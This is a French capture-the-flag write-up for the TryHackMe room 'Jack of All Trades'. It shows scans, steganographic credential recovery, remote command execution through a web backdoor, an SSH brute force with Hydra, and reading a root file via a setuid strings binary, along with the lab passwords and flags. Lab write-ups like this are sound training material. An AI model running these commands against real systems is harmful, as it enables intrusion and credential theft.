






# Jack of All Trades #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.243.32 jackOfAllTrades.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A jackOfAllTrades.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-23 09:25 CEST
Nmap scan report for jackOfAllTrades.thm (10.10.243.32)
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/23%OT=22%CT=1%CU=43817%PV=Y%DS=2%DC=T%G=Y%TM=60FA6F1
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=101%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.46 ms 10.9.0.1
2   33.65 ms jackofalltrades.thm (10.10.243.32)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.21 seconds
```

On voit ici deux services ouverts : 
Le service http sur le port 22.   
Le service ssh sur le port 80. 




On remarque que dans le code source de la page principale il y a plusieurs chose :   
Un lien vers \/recovery.php  
Un chaîne encodée en base64   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==" | base64 -d
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

On déchiffrant la chaîne on obtient un mot de passe : u?WtKSraq 




On remarque sur que recovery.php on nous demande des identifiants.   
Dans les codes sources de la page il y encore une chaîne encodée il faut trouver le bon encodage.   



En déchiffrant la chaîne on obtient un lien bit.ly/2TvYQ2S.

Le lien pointe sur le site wikipedia sur le dinosaure Stegosauria.   

Sur la page principale voir première image on voit le même de type de dinosaure.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://jackofalltrades.thm:22/assets/stego.jpg
--2021-07-23 10:22:07--  http://jackofalltrades.thm:22/assets/stego.jpg
Résolution de jackofalltrades.thm (jackofalltrades.thm)… 10.10.243.32
Connexion à jackofalltrades.thm (jackofalltrades.thm)|10.10.243.32|:22… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 38015 (37K) [image/jpeg]
Sauvegarde en : « stego.jpg »

stego.jpg                                                   100%[=========================================================================================================================================>]  37,12K  --.-KB/s    ds 0,07s   

2021-07-23 10:22:07 (533 KB/s) — « stego.jpg » sauvegardé [38015/38015]

tim@kali:~/Bureau/tryhackme/write-up$ steghide --extract -sf stego.jpg 
Entrez la passphrase: 
�criture des donn�es extraites dans "creds.txt".
tim@kali:~/Bureau/tryhackme/write-up$ cat creds.txt 
Hehe. Gotcha!

You're on the right path, but wrong image!
```

Je télécharge l'image du site puis je trouve le fichier caché.  
On nous dit que l'on est sur la bonne voie mais c'est la mauvaise image.  

Quand on regarde le code source de la page principale il y trois image :   
header.jpg  
stego.jpg  
jackinthebox.jpg   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget -nv http://jackofalltrades.thm:22/assets/header.jpg
2021-07-23 10:30:21 URL:http://jackofalltrades.thm:22/assets/header.jpg [70273/70273] -> "header.jpg" [1]

tim@kali:~/Bureau/tryhackme/write-up$ steghide --extract -sf header.jpg 
Entrez la passphrase: 
�criture des donn�es extraites dans "cms.creds".

tim@kali:~/Bureau/tryhackme/write-up$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

On télécharge header.jpg  
On récupère les données cachées.  
On trouve des identifiants CMS :  
Username: jackinthebox  
Password: TplFxiSHjY  



On voit que l'on peut passer des commandes.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl --cookie "login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84" http://jackofalltrades.thm:22/nnxhweOV/index.php?cmd=ls%20-al
GET me a 'cmd' and I'll run it for you Future-Jack.
total 12
drwxr-xr-x 2 root root 4096 Feb 28  2020 .
drwxr-xr-x 4 root root 4096 Mar  1  2020 ..
-rwxr-xr-x 1 root root  322 Feb 28  2020 index.php
-rwxr-xr-x 1 root root  322 Feb 28  2020 index.php
```

On test la commande ça fonctionne.  
Pour le cookie on peut le récupérer dans firefox dans storage et cookie.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl --cookie "login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84" http://jackofalltrades.thm:22/nnxhweOV/index.php?cmd=ls%20-al%20/home/
GET me a 'cmd' and I'll run it for you Future-Jack.
total 16
drwxr-xr-x  3 root root 4096 Feb 29  2020 .
drwxr-xr-x 23 root root 4096 Feb 29  2020 ..
drwxr-x---  3 jack jack 4096 Feb 29  2020 jack
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list
-rw-r--r--  1 root root  408 Feb 29  2020 jacks_password_list

tim@kali:~/Bureau/tryhackme/write-up$ curl --cookie "login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84" http://jackofalltrades.thm:22/nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list
GET me a 'cmd' and I'll run it for you Future-Jack.
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
ow5APF>6r,y4krSo
```

On voit une liste de mots de passes.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl --cookie "login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84" http://jackofalltrades.thm:22/nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list > passwd
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   476  100   476    0     0   7000      0 --:--:-- --:--:-- --:--:--  7000

tim@kali:~/Bureau/tryhackme/write-up$ hydra -l jack -P passwd ssh://jackofalltrades.thm -s 80
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-23 11:28:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://jackofalltrades.thm:80/
[80][ssh] host: jackofalltrades.thm   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-23 11:28:16
```

On met les mots de passe dans un fichier puis on brute force la session SSH.   
Utilisateur : jack  
Mot de passe : ITMJpGGIqg1jn?>@  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh jack@jackofalltrades.thm -p 80
The authenticity of host '[jackofalltrades.thm]:80 ([10.10.243.32]:80)' can't be established.
ECDSA key fingerprint is SHA256:wABOsY4G6TIcuJ2bmAIpsoBGVR06p/QGP2J7tfiSy2s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[jackofalltrades.thm]:80,[10.10.243.32]:80' (ECDSA) to the list of known hosts.
jack@jackofalltrades.thm's password:
jack@jack-of-all-trades:~$ ls
user.jpg

tim@kali:~/Bureau/tryhackme/write-up$ scp -P 80 jack@jackofalltrades.thm:./user.jpg ./
jack@jackofalltrades.thm's password: 
user.jpg                                                                                                                                                                                                    100%  286KB   1.3MB/s   00:00
```

**User Flag**

On se connect sur la session ssh, on voit un fichier user.jpg.   
Je récupère le fichier user.jpg.  
On l'affiche et on trouve le flag.   

Réponse : securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}   


**Root Flag**

```bash
jack@jack-of-all-trades:~$ find / -perm -4000 2>/dev/null 
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/pt_chown
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/strings
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/procmail
/usr/sbin/exim4
/bin/mount
/bin/umount
/bin/su
```

On regarde les fichiers setuid.  
D'après [gtfobins](https://gtfobins.github.io/gtfobins/strings/), on peut exploiter strings.  

```bash 
jack@jack-of-all-trades:~$ LFILE=/root/root.txt
jack@jack-of-all-trades:~$ /usr/bin/strings "$LFILE"
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}
```

On exploitant strings on trouve le dernier flag.   
Réponse : securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}   